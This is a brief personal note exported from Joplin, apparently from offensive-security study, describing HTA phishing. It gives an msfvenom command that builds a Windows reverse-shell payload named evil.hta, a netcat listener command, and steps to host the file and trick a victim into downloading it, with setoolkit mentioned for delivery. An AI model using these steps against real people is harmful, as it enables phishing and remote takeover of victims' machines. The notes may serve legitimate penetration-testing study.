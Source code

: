 HTML APPs (.hta)

Can use the setoolkit for Phishing deployment; Go Youtube

ActiveXObjects must be usable in the victim browser

> msfvenom -p windows/shell\_reverse\_tcp LHOST=&lt;kali ip&gt; LPORT=4444 -f hta-psh -o ./evil.hta

Variable names will have been randomized

Host the HTA app in a Webserver

Setup a Netcat Listener

> nc -nlvp 4444

Send the link to the victim to get him to download it

id: 96ad790d9c474b8eb811b50b79756a67
parent_id: 00b28c92e0a5415cbf7110cda063173b
created_time: 2022-01-26T15:37:56.921Z
updated_time: 2022-01-26T16:09:18.680Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-26T15:37:56.921Z
user_updated_time: 2022-01-26T16:09:18.680Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1